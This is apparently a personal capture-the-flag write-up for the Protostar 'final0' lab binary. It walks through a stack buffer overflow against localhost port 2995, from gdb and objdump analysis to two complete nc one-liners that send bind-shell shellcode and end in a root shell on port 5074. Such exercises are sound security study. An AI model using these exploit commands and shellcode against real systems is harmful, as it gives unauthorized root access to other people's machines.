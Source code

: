 ## Final0
* `python -c "print('A' * 512 + 'ABCDEFGHIJKLMNOPQRSTUVWXYZ')" | nc localhost 2995 `
* `gdb -q -c /tmp/core.11.final0.1894`
* `#0  0x58575655 in ?? ()`
* so buffer overflow works and `length = 532`
* shellcode https://www.exploit-db.com/exploits/13427/
* Two ways to execute the buffer
  1. `x/10x $esp-536` so we know the buffer address is `0xbffffa48`
  2. from `return strdup(buffer)` we can find the address of `call.*eax` by `objdump -d /opt/protostar/bin/final0 | grep "call.*eax"`
  ```
   8048d5f: ff d0                   call   *%eax
   804992b:   ff d0                   call   *%eax
  ```
  through `x/i 0x8048d5f` and `x/i 0x804992b` we can sure that `0x8048d5f` is what we want
* `python -c 'print("\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xedDBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKBAFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIAJDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJOBLAALMNIA" + "A"*306 + "\x48\xfa\xff\xbf" + "\n")' | nc localhost 2995`
OR
* `python -c 'print("\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xedDBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKBAFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIAJDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJOBLAALMNIA" + "A"*306 + "\x5f\x8d\x04\x08" + "\n")' | nc localhost 2995`
* this is a "Bindshell puerto 5074", so open another shell and run `nc localhost 5074` we get the root shell